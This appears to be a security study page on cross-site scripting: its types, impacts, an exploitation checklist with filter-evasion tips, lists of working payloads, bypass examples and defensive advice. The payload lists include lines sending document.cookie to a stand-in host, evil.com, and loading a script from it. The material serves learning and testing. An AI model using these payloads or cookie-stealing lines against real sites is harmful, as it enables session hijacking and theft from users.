 Cross-Site Scripting is a type of injection where JavaScript code can be injected into a website. A XSS attack is where an attacker has embedded malicious code, often in the form of a browser-side script that is then sent to an unsuspecting user when they request the webpage.

These attacks can occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

There are 3 types of XSS attacks:
- [Reflective XSS](#reflective-xss) - Injected code is reflected back to a user by the web application
- [Stored XSS](#stored-xss) - The injected code is stored on the webserver and is requested by the user
- [DOM-Based XSS](#dom-based-xss) - The injected code manipulates the client-side DOM, resulting in the execution of code on the victim's browser. 

## Reflective XSS
Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes this as it appears to have come from a 'Trusted' server.

This can lead to various security issue, such as stealing user information (eg. credentials or tokens) or performing unauthorised actions on behalf of a user.

These attacks are often initiated by creating malicious links or forms that exploit vulnerabilities in the target application.

Sometimes referred to as Non-Persistent or Type-II XSS.

## Stored XSS
Stored attacks are those where the injected script is permanently stored on the target server, such as in a database, comment section, message forum etc. The victim then retries the script from the server when it requests the stored information.

Unlike reflective XSS, the injected code is not reflected back immediately but rather stored on the target server and delivered to other users later. This makes stored XSS attacks particularly dangerous, as the malicious code affects multiple users and can lead to unauthorized access, data theft, or even complete website compromise.

Sometimes referred to a Persistent or Type-II XSS.

## DOM-Based XSS
This attack occurs when an attacker injects and manipulates malicious code into the Document Object Model (DOM) of a webpage. In DOM-Based XSS attacks the malicious injected code is usually executed by JavaScript directly in the victim's browser, without being sent to the server.

The vulnerable webpage often includes JavaScript that reads data from the URL or user input and then dynamically updates the DOM, but fails to properly sanitize or validate the input, allowing injected code to be executed.

## Impacts of XSS
- Impersonating or masquerading as the victim user
- Hijacking a user's session
- Perform unauthorized actions on behalf of the user
- Steal sensitive information
- Perform phishing attacks
- Capture user credentials
- Capture keystrokes
- Deface the website / Edit its content
- Inject trojan functionality into the website

## Exploiting XSS
When exploiting an XSS vulnerability, you need to understand how the application behaves towards specific payloads. The following checklist can be used before exploiting an XSS vulnerability:
- Find the backlisted/filtered characters. XSS locators can be used for this: `'';! - "<XSS>=&{()}`
- Observe what tags are blocked by Web Application Firewall (WAF) and which keywords are allowed (`iframe`, `img`, `body` etc.)
- Try character encoding ([URL encoding](https://www.w3schools.com/tags/ref_urlencode.ASP), [Double URL encoding](https://owasp.org/www-community/Double_Encoding), UTF-8 Unicode encoding, Long UTF-8 Unicode encoding, Hex encoding etc.)
- Try [XSS using HTML quote encapsulation](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-using-html-quote-encapsulation)
- Try [URL string evasion](https://docs.trellix.com/bundle/network-security-platform-application-notes/page/GUID-CCB698B2-851B-48DE-8E1F-93968ED36C2E.html)
- Create the payload list according to the allowed keywords
- Brute-force the application with the XSS payload list you just created

> Note: Double URL encoding can be tried since the first decoding process is performed by HTTP protocol and the resultant encoded URL will bypass the XSS filter.

### XSS Cheatsheet
A very useful OWASP XSS [cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).
Another useful [cheatsheet repo & other links](https://github.com/RenwaX23/XSS-Payloads/tree/master)

#### XSS Locators
{% highlight HTML %}
'';!--"<XSS>=&{()}
{% endhighlight %}

#### Classic Payloads
{% highlight HTML %}
<svg/onload=alert(1)>
<script>alert(1)</script>
<script    >alert(1)</script>
<ScRipT>alert(1)</scRipT>
<%00script>alert(1)</script>
<script>al%00ert(1)</script>
{% endhighlight %}

#### HTML Tags
{% highlight HTML %}
<img/src=x a='' onerror=alert(1)>
<IMG """><SCRIPT>alert(1)</SCRIPT>">
<img src=`x`onerror=alert(1)>
<img src='/' onerror='alert("kalisa")'>
<IMG SRC=# onmouseover="alert('xss')">
<IMG SRC= onmouseover="alert('xss')">
<IMG onmouseover="alert('xss')">
<BODY ONLOAD=alert('XSS')>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<SCRIPT SRC=http:/evil.com/xss.js?< B >
"><XSS<test accesskey=x onclick=alert(1)//test
<svg><discard onbegin=alert(1)>
<script>image = new Image(); image.src="https://evil.com/?c="+document.cookie;</script>
<script>image = new Image(); image.src="http://"+document.cookie+"evil.com/";</script>
{% endhighlight %}

The `javascript:alert(1);` can be injected to run in-line java (eg. in a URL)

### Useful Example Situations
#### Bypass Angle Bracket Filter
In a Reflective XSS where the `<` & `>` are both blacklisted/encoded. You can still inject code if the user input is injected within a tag already. This relies on the `"` not being escaped as `&quot`.

{% highlight HTML %}
" onmouseover="alert(1)
{% endhighlight %}

Would result in something like a search box like:
{% highlight HTML %}
<input type=text placeholder='Search the blog...' name=search value="{{ user.input }}">
{% endhighlight %}

Being turned into:
{% highlight HTML %}
<input type=text placeholder='Search the blog...' name=search value="" onmouseover="alert(1)">
{% endhighlight %}

#### String Subtraction Injection
If a variable is set of the user input eg.
{% highlight js %}
var userInput = '';
{% endhighlight %}

If you then take a string and subtract a function from it, it will in turn run the function. Eg.
{% highlight js %}
var userInput = ''-alert(1)-'';
{% endhighlight %}

So the payload would be `'-alert(1)-'`

## Defending from XSS
### Input Validation
#### Allow Lists - Recommended
- These lists reduce the input to a known attack surface
- Most inputs can be limited to alphanumeric to prevent XSS
- Special characters can be allowed on an exception basis

#### Deny Lists - No Recommended
- Only covers the known methods, could be exploited by creative attackers still

#### Client Side input validation - Not Recommended
- Can easily be bypassed by sending requests directly to the server
- Only useful for application usability

### Proven Validation and Encoding Functionality
- Protect both the input through validation and output through encoding - "defence in depth" principle
- Use proven, reputable libraries to protect the application
  - Its easy to make mistakes or not cover some edge cases when you write the functionality yourself
- Utilise a framework that has a central set of functionality that validates and encodes data
  - Protects you from missing some areas in your code and leaving those places exposed